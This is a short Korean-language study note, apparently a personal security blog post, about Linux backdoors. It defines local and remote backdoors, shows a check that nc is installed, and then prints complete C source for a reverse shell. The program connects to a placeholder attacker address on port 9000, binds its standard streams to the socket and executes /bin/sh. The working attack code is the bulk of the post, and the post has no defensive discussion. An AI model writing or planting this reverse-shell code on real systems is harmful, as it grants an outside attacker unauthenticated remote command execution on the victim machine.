 ```yaml
---
title:  "backdoor-linux" 

categories:
  - backdoor,linux
tags:
  - [backdoor,linux]

toc: true

date: 2022-10-18
last_modified_at: 2022-10-18
---
```


## backdoor - linux

- 정상 인증을 거치지 않고 시스템에 접근

- local backdoor      : 관리자의 권한을 취득

- remote backdoor  : 인증없이 접근



- 구성도

- nc 실행하여 설치 되어있는지 확인

  ```
  [root@localhost ~]# nc
  ```

  ![화면 캡처 2022-10-18 191131](../../assets/img/화면 캡처 2022-10-18 191131.png)

- 공격대상에 백도어+ 쉘 소스코드생성

  ```
  [root@localhost ~]# vim /root/reverse_shell.c
  
  #include <sys/socket.h>
  #include <netinet/in.h>
  #include <arpa/inet.h>
  #include <netdb.h>
  #include <unistd.h>
  #include <errno.h>
  int main(int argc, char* argv[])
  {
          struct sockaddr_in server_addr;
          int server_sock;
          int client_len;
          char buf[80];
          char rbuf[80];
          char *cmd[2] = {"/bin/sh",(char *)0};
          server_sock = socket(AF_INET, SOCK_STREAM, 6);
          server_addr.sin_family =  AF_INET;
          server_addr.sin_addr.s_addr = inet_addr("공격자주소");
          server_addr.sin_port = htons(atoi("9000"));
          client_len =  sizeof(server_addr);
          connect(server_sock,(struct sockaddr *) &server_addr, client_len);
          dup2(server_sock, 0);
          dup2(server_sock, 1);
          dup2(server_sock, 2);
          execve("/bin/sh", cmd, 0);
          return 0;
  }
  ```
